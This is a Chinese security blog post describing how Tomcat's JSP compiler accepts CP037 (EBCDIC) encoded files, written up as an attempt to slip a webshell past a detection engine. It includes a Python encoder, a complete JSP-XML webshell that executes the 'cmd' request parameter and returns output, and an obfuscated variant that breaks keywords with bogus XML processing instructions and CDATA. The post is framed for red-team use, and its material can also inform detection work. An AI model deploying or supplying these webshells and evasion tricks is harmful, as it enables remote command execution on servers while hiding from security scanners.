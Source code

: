 @Author：Y4tacker

# 一次jsp的奇异探索

## 写在前面

本篇没有能绕过某引擎，但因为觉得比较好玩，就分享给大家，觉得某天大家hvv或许能用到呢？

本篇文章是详细记录了自己从开始尝试到失败到成功的全过程，引入自己的思考过程，东西比较简单

在施展了一些奇妙神奇姿势后，我技穷了，在本打算躺平后突然想到之前我用过utf16编码jsp也是能成功解析，之后我又想支不支持一些其他的编码呢？

答案是yes，接着往下看

## 探索

在tomcat中的`org/apache/jasper/compiler/EncodingDetector`

这里把支持的编码都列出来了

```java
    private BomResult parseBom(byte[] b4, int count) {

        if (count < 2) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-16, with BOM
        int b0 = b4[0] & 0xFF;
        int b1 = b4[1] & 0xFF;
        if (b0 == 0xFE && b1 == 0xFF) {
            // UTF-16, big-endian
            return new BomResult("UTF-16BE", 2);
        }
        if (b0 == 0xFF && b1 == 0xFE) {
            // UTF-16, little-endian
            return new BomResult("UTF-16LE", 2);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 3) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-8 with a BOM
        int b2 = b4[2] & 0xFF;
        if (b0 == 0xEF && b1 == 0xBB && b2 == 0xBF) {
            return new BomResult("UTF-8", 3);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 4) {
            return new BomResult("UTF-8", 0);
        }

        // Other encodings. No BOM. Try and ID encoding.
        int b3 = b4[3] & 0xFF;
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x00 && b3 == 0x3C) {
            // UCS-4, big endian (1234)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, little endian (4321)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x3C && b3 == 0x00) {
            // UCS-4, unusual octet order (2143)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, unusual octet order (3412)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x3F) {
            // UTF-16, big-endian, no BOM
            // (or could turn out to be UCS-2...
            // REVISIT: What should this be?
            return new BomResult("UTF-16BE", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x3F && b3 == 0x00) {
            // UTF-16, little-endian, no BOM
            // (or could turn out to be UCS-2...
            return new BomResult("UTF-16LE", 0);
        }
        if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            // EBCDIC
            // a la xerces1, return CP037 instead of EBCDIC here
            return new BomResult("CP037", 0);
        }

        // default encoding
        return new BomResult("UTF-8", 0);
    }

```

为了获得更多的在jsp中的乱码，这里我关注到了cp037

## 简单的尝试

掏出抠脚的python技术，一顿乱敲

```python
data = '''<%
    Runtime.getRuntime().exec("open -na Calculator");
%>'''.encode("cp037")

with open("y4tacker.jsp", "wb") as f:
    f.write(data)
```

心满意足的看着自己生成的看不懂的宝贝，这不赶紧拿到tomcat目录下试一试

![](img/1.png)

哈？原封不动输出了，这时候意识到了我可能少了一些小细节

![](img/2.png)

再回头去看，这前四个字节还有要求的哦

```java
if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            return new BomResult("CP037", 0);
}
```

简单的编程

![](img/3.png)

看到了结果，`<?xm`要求是这个开头，很容易我想到了xml，很显然jsp支持xml格式编写

![](img/4.png)

## 新的问题

这时候按照要求，我写出了新的代码，并按照上面的脚本转化编码格式

```jsp
<?xml version="1.0" encoding="cp037" ?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
BufferedReader input = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

这次成功了，但是没能绕过某引擎不甘心

![](img/5.png)

## 继续探索

猜测会不会是我的特征太明显了，这里我想有没有一些更骚的东西，后面发现处理不存在的XML元素会置空

得到最终

```jsp
<?xm?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Pro<?wtyn?>cess p = Run<?wtyn?>time.get<?wtyn?>Run<?wtyn?>ti<?wtyn?>me().exe<?wtyn?>c(request.getParameter("cmd"));
Buffer<?wtyn?>edRead<?wtyn?>er input = ne<?wtyn?>w Buff<?wtyn?>eredR<?wtyn?>eader(new InputSt<?foo?>ream<?wtyn?>Reader(p.getI<?wtyn?>nputSt<?foo?>ream()));
String line = "";
while ((l<?wtyn?>ine = input.read<?wtyn?>Line()) != null) {
  out.w<?wtyn?>rite(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

编码为cp037后再试试，

![](img/7.png)

也是成功执行了的

![](img/6.png)虽然这里也没有能绕过引擎，但未来如果遇到一些处理不好的引擎，说不定能大放光彩

PS：在xml当中还可以配合CDATA做更多混淆

```xml
String cmd = request.getPar<![CDATA[ameter]]>("shell");
```

